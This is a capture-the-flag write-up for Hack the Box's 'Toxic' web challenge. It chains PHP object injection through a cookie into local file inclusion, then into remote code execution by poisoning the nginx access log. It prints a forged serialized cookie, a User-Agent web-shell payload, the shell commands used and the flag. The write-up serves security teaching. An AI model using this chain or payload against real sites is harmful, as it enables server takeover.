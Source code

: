 # Writeup "Toxic"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                            </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/toxic              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-toxic-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                           </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                    </td></tr>
   <tr><td><b> startdate  </b></td><td> __                                              </td></tr>
   <tr><td><b> enddate    </b></td><td> __                                              </td></tr>
</table>

## Description

> Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

## Solution

We receive an IP and port to a server and a zip file containing the _PHP_ application deployed on the server. The application displays a web page about dart frogs; as mentioned in the challenge description, there is no user input on the page.

<p align="center">
   <img src="includes/toxic-01.png" />
</p>

Looking through the file `Dockerfile`, we see that the application lies in the `/www` directory and the flag lies in the root directory. Also, the bash script `entrypoint.sh` is called when the application is set up, so we take a look at this file, as well. In `entrypoint.sh`, we find the following lines:

``` bash
# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

This appends an underscore and five random characters to `flag`, so the new filename will look like e.g. `flag_TJ9ai` or `flag_xQszw`. This will make it harder to get to the flag, because we have to find out the correct file name before accessing the file.

Continuing our review of the source code, we find some dubious code in the file `index.php`:

``` php
if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

First, the code checks if there is a cookie set. If there is none, a new `PageModel` object is created. Then, the cookie is read and unserialized[^2] without any checks or sanitation of what can effectively be considered a user input. This allows an attack _"PHP Object Injection"_[^3][^4]. Let's take a look at the definition of the `PageModel` class:

``` php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

`__destruct` is a _"PHP magic method"_ which is called automatically when an object is destroyed[^1]. Since the object is unserialized in `index.php` without assigning it to a variable, this method is called immediately.

In this case, the `__destruct` method includes the file specified in the member variable `$file`. Again, this is done without any sanitation which allows the user to alter the cookie and therefore the file which is included by the website. This is called a _File Inclusion_ attack[^5].

However, we do not know the file name of the flag; therefore, this is not yet enough. We need a way to look through the file system and obtain the new flag file name. First, we try to use the vulnerability to perform a _Remote File Inclusion_ (RFI) attack. As a test, we create the following PHP file and host it using the command `python -m http.server`:

```php
<?php echo shell_exec("whoami"); ?>
```

This does not work, however. Apparently, only a _Local File Inclusion_ (LFI) is possible. A web search for _"php lfi rce"_ leads us to a page describing how to use a LFI to perform a _Remote Code Execution_ (RCE) by using a technique called _"Log Poisoning"_[^6]. In a nutshell, we have to perform the following steps:
1. Find a log file where we can influence the content;
2. inject our PHP code into the log file;
3. include the log file in the website using the LFI vulnerability.

From the Dockerfile we know that the web server runs NGINX so we do a web search for _"nginx log path"_. This tells us that the standard location for the access log file is `/var/log/nginx/access.log`. Using the following commands, we create and encode a custom object for the cookie:

``` php
$o = new PageModel;
$o->file = "/var/log/nginx/access.log";
$c = serialize($o);
$c = base64_encode($c);
print $c;

Output: "Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ=="
```

The cookie's value is replaced using the Firefox developer tools and the web site shows the contents of the log file:

<p align="center">
   <img src="includes/toxic-02.png" />
</p>

Now we need a way of injecting our PHP code into the log file. Since we can see that the log file contains the `User-Agent` string of all received HTTP requests, we decide to use this field for the injection. As payload we choose the following line:

``` php
<?php echo shell_exec($_GET['cmd']); ?>
```

This will execute any command that is passed to the page via the GET parameter `cmd`. We replace the `User-Agent` string using the Firefox developer tools again by right-clicking on the last GET request and choosing _"Edit and Resend"_:

<p align="center">
   <img src="includes/toxic-03.png" />
</p>

Success! By setting the `get` parameter, we can pass various shell commands to the server. First, let's find out the name of the flag file using the command `ls /`:

<p align="center">
   <img src="includes/toxic-04.png" />
</p>

So the file name is `flag_bHZeW`. Just one more step in order to get the flag itself using the command `cat /flag_bHZeW`:

<p align="center">
   <img src="includes/toxic-05.png" />
</p>

There we go!

```
HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}
```

### Sources

[^1]: https://www.php.net/manual/en/language.oop5.magic.php
[^2]: https://www.php.net/manual/de/function.unserialize.php
[^3]: https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
[^4]: https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a
[^5]: https://www.webmaster-tipps.de/php-sicherheit-local-file-inclusion-und-remote-file-inclusion/
[^6]: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1
